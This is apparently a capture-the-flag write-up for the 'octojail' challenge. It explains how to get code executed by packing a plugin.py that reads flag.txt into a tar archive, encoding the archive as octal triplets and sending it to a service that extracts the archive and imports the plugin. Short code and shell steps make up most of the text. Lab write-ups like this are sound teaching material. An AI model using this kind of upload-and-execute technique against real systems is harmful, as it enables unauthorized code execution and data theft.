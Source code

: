 # octojail

We only like octal around here!

The service reads a line of octal triplets, treats it as a tar, extracts to `uploads/`, then imports `plugin.py` and calls `run()`. So ship a tar containing `plugin.py` that prints the flag.

**Steps**

1. Create `plugin.py`:

`def run():    print(open("flag.txt").read().strip())`

2. Pack it at tar root:

`tar -cf payload.tar plugin.py`

3. Convert tar to octal triplets (each byte → 3 octal digits):

`with open("payload.tar","rb") as f:    print(''.join(f'{b:03o}' for b in f.read()))`

4. Paste that octal string to the program when it says `Send octal`. The program will extract and run your `run()` and print the flag.

**Notes**

- Don’t use paths like `../` or leading `/` in the tar (extractor blocks them).

- The loader has a 6s timeout, so keep `run()` simple and fast.
